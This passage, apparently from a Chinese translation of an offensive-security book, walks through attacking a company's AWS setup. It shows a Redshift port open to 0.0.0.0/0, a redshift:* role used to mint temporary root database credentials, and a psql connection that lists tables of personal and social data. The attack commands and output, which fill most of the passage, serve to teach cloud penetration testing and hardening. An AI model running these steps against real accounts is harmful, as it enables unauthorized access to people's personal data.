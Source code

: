 我们查看安全组，以便检查是否有过滤规则阻止直接连接到数据库：

```
root@Point1:~/# **aws ec2 describe-security-groups \**
**--group-ids sg-9f3a64e4 sg-a53f61de**

"IpPermissions": [ {
  "ToPort": 5439,
  "IpProtocol": "tcp",
  "IpRanges": [
       { "CidrIp": "52.210.98.176/32" },
       { "CidrIp": "32.29.54.20/32" },
       { "CidrIp": "10.0.0.0/8" },
       { "CidrIp": "0.0.0.0/0" },
```

我最喜欢的 IP 范围：0.0.0.0/0。这种未过滤的 IP 范围可能仅仅是用于测试新的 SaaS 集成或运行一些查询时临时赋予的访问权限……但现在我们已经进入了。公平地说，既然我们已经能够访问 GP 的网络，这对我们来说并不重要。损害已经发生。

Redshift 与 IAM 服务紧密结合，我们不需要去寻找数据库的凭证。由于我们在 rundeck 角色上有一个漂亮的`redshift:*`权限，我们只需为任何数据库用户账户（包括 root）创建一个临时密码：

```
root@Point1:~/# **aws get-cluster-credentials \**
**--db-user root \**
**--db-name datalake\**
**--cluster-identifier bi \**
**--duration-seconds 3600**

"DbUser": "IAM:root",
"DbPassword": "AskFx8eXi0nlkMLKIxPHkvWfX0FSSeWm5gAheaQYhTCokEe",
"Expiration": "2020-12-29T11:32:25.755Z"
```

使用这些数据库凭证，我们只需下载 PostgreSQL 客户端并将其指向 Redshift 端点：

```
root@Point1:~/# **apt install postgresql postgresql-contrib**
root@Point1:~/# **PGPASSWORD='AskFx8eXi0nlkMLKIx...' \**
**psql \**
**-h bi.cdc3ssq81c3x.eu-west-1.redshift.amazonaws.com \**
**-U root \**
**-d datalake \**
**-p 5439**
**-c "SELECT tablename, columnname  FROM PG_TABLE_DEF where schemaname \**
**='public'" > list_tables_columns.txt**
```

我们导出了包含表和列的全面列表（存储在`PG_TABLE_DEF`表中），并迅速锁定了有趣的数据：

```
root@Point1:~/# **cat list_tables_columns.txt**
profile, id
profile, name
profile, lastname
profile, social_id
`--snip--`
social, id
social, link
social, fb_likes
social, fb_interest
`--snip--`
taxonomy, segment_name
taxonomy, id
taxonomy, reach
taxonomy, provider
`--snip--`
interestgraph, id
interestgraph, influence_axis
```